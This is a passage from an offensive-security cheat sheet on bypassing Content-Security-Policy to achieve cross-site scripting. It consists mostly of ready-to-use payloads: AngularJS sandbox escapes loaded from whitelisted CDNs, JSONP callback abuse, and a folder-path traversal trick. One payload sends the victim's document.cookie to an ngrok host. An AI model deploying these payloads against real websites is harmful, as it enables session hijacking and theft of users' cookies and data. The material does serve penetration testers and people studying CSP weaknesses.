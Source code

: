 Load a vulnerable version of angular and execute arbitrary JS:

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
```

####  Other payloads:

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>

<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```

### Third Party Endpoints + JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect**, because if the initial endpoint is trusted, redirects are trusted.

### Folder path bypass

If CSP policy points to a folder and you use **%2f** to encode **"/"**, it is still considered to be inside the folder. All browsers seem to agree on that.  
This leads to a possible bypass, by using "**%2f..%2f**" if server decodes it. For example, if CSP allows `http://example.com/company/` you can bypass the folder restriction and execute: `http://example.com/company%2f..%2fattacker/file.js`

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)
